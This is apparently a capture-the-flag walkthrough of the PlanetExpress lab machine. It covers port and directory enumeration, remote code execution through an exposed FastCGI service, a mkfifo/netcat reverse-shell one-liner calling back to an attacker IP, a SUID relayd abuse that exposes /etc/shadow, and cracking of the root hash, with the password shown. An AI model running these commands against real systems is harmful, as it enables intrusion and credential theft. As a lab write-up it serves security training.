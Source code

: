# PlanetExpress

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:27 +08
Nmap scan report for 192.168.183.205
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9000/tcp open  cslistener

Nmap done: 1 IP address (1 host up) scanned in 35.83 seconds
```

Did a detailed scan to enumerate port 80 and 9000 further:

```
$ sudo nmap -p 80,9000 -sC -sV -O --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:31 +08
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: Pico CMS
|_http-title: PlanetExpress - Coming Soon !
9000/tcp open  cslistener?
```

Port 8000 was running Pico CMS, which does have some exploits.&#x20;

### Web Enum -> PHPInfo

Port 80 had a countdown:

<figure><img src="../../../.gitbook/assets/image (985).png" alt=""><figcaption></figcaption></figure>

There isn't much on this page, so we can do a `gobuster` directory scan with the PHP extension since PicoCMS was being used:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.205/ -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.205/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/07/09 22:35:49 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5176]
/content              (Status: 301) [Size: 320] [--> http://192.168.183.205/content/]
/themes               (Status: 301) [Size: 319] [--> http://192.168.183.205/themes/]
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.205/assets/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.183.205/plugins/]
/vendor               (Status: 301) [Size: 319] [--> http://192.168.183.205/vendor/]
/config               (Status: 301) [Size: 319] [--> http://192.168.183.205/config/]
```

Using the PicoCMS Github repository, we can view more about these directories.&#x20;

{% embed url="https://github.com/picocms/Pico/tree/master" %}

Viewing the `config.yml` file shows that this is indeed running PicoCMS:

```
$ curl http://192.168.183.205/config/config.yml
##
# Basic
#
site_title: PlanetExpress
base_url: ~

rewrite_url: ~
debug: true
timezone: ~
locale: ~

##
# Theme
<TRUNCATED>
## 
# Self developed plugin for PlanetExpress
#
#PicoTest:
#  enabled: true
```

There's also a custom plugin developed for this website, and we can visit that at `plugins/PicoTest.php` based on the Github repo. This would show us the PHPInfo of the site:

<figure><img src="../../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

Here, we can find that `/var/www/html/planetexpress` is the document root. Also, we can find a lot of disabled functions:

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

### FastCGI -> RCE

There wasn't much else on the webpage for us to test, however there was still port 9000. Googling it revealed that it was running FastCGI:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}

There are RCE exploits for this service [here](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75). The script given allows us to inject PHP code into the service to be run. However, there are a lot of functions that are disabled based on `PicoTest.php`. I checked the functions against all functions that are able to execute system commands via PHP, and `passthru` was not disabled.

Using `passthru` and the document root directory allows us to get RCE:

<figure><img src="../../../.gitbook/assets/image (1215).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell via the `mkfifo` one-liner.&#x20;

{% code overflow="wrap" %}
```
$ python2 exploit.py -c '<?php passthru("bash -c \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.45.218 80 > /tmp/f\""); ?>' 192.168.183.205 /var/www/html/planetexpress/plugins/PicoTest.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1232).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Relayd SUID -> Shadw Hash

I searched for SUID binaries and found one that stood out:

```
$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/sbin/relayd
<TRUNCATED>
```

We can check the help menu for this :

```
www-data@planetexpress:/home/astro$ /usr/sbin/relayd --help
Usage: relayd [options] [actions]
Actions:
  default action      start daemon
  -h                  show this help message
  -v                  show version info
  -k                  kill running daemon
  -s                  get running status
  -U                  hup (reload configs)
  -a [service]        add service for relay
  -r [service]        remove service for relay
  -i                  get real client ip
  -b [up|down]        broadcast the DS boot state
  -R                  reopen the log file
Options:
  -C [file]           read config from file
  -d                  enable debug mode. will not run in background
  -P [file]           set pid file for daemon
  -g [ip]             remote source ip
  -n [port]           remote source port
```

The option that stood out the most to me was the `-C` flag, because it allows us to read from files. I attempted to read the `/etc/shadow` file:

```
www-data@planetexpress:/tmp$ /usr/sbin/relayd -C /etc/shadow
[ERR] 2023-07-09 10:53:48 config.cpp:1539 write
[ERR] 2023-07-09 10:53:48 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
[ERR] 2023-07-09 10:53:48 config.cpp:1189 bad json format [/etc/shadow]
[ERR] 2023-07-09 10:53:48 invalid config file

www-data@planetexpress:/tmp$ ls -la /etc/shadow
-rw-r--r-- 1 root shadow 940 Jan 10  2022 /etc/shadow
```

This made the file readable by all. We can then grab the `root` hash:

{% code overflow="wrap" %}
```
www-data@planetexpress:/tmp$ cat /etc/shadow
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
```
{% endcode %}

We just need to put this hash and the entry for `root` in `/etc/passwd` into another file, then run `unshadow` to convert it to a crackable hash.

{% code overflow="wrap" %}
```
$ cat hash  
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
$ cat passwd       
root:x:0:0:root:/root:/bin/bash
$ unshadow passwd hash
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:0:0:root:/root:/bin/bash
```
{% endcode %}

Then, we can crack it in `john` (or in my case, just show because I cracked it before):

```
$ john --show root_hash                                     
root:neverwant2saygoodbye:0:0:root:/root:/bin/bash

1 password hash cracked, 0 left
```

We can then `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (1567).png" alt=""><figcaption></figcaption></figure>

Rooted!

